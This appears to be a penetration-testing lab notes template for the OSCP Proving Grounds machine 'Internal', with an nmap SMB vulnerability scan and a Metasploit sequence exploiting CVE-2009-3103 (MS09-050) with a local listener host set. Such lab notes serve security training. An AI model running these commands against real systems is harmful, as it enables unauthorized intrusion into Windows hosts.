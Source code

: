 ## [Walkthrough](https://systemweakness.com/internal-oscp-offensive-security-proving-grounds-practice-easy-9d9152adddc0)
- Exploit/Vulnerability: 
- Hostname:
- OS: Windows
- DNS:
- Ports:


## Recon
```

nmap — script smb-vuln* -p 139,445 -oN smb-vuln-scan <IP>
```
## Enumeration

## Exploitation
1. [CVE-2009-3103](https://www.exploit-db.com/exploits/16363)
```
msfconsole
use exploit/windows/smb/ms09_050_smb2_negotiate_func_index
set RHOSTS <target-ip>
set LHOST <local-ip>
run
```

## Post Exploit

## High Value Info
### Creds:

### local.txt:

### proof.txt: 

## Reporting & Screenshots
